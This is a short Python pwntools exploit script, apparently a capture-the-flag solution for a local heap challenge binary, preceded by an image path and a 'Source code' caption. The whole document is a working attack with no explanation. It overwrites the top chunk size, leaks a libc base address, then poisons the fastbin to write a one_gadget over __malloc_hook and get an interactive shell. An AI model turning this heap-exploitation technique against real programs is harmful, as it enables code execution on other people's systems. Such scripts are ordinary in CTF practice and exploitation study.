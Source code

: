 ```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf=ELF('./pwn')
libc = elf.libc


def regs():
    n.recvuntil('name?')
    n.sendline("nepire")


def choice(idx):
    n.recvuntil('Your choice > ')
    n.sendline(str(idx))


def new(size,content):
    choice(1)
    n.recvuntil("Size >")
    n.sendline(str(size))
    n.recvuntil('Content > ')
    n.send(content)


def show():
    choice(2)


def free():
    choice(3)


def edit(size,content):
    choice(4)
    n.recvuntil("Size > ")
    n.sendline(str(size))
    n.recvuntil("Content > ")
    n.send(content)
regs()
new(0x18,'0000')
edit(0x18+7,'a'*0x18+p32(0xd91))
new(0x1000,'1111')
new(0x68,'a'*8)
show()
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3ec2a0
print hex(libcbase)
malloc_hook  = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase + 0x4f322
free()
edit(0x68,p64(malloc_hook-0x10+1-0x8))
new(0x68,'aaaa')
new(0x68,'a'*7+p64(one_gadget)*3)
choice(1)
n.recvuntil('>')
n.sendline('114')
n.interactive()
```
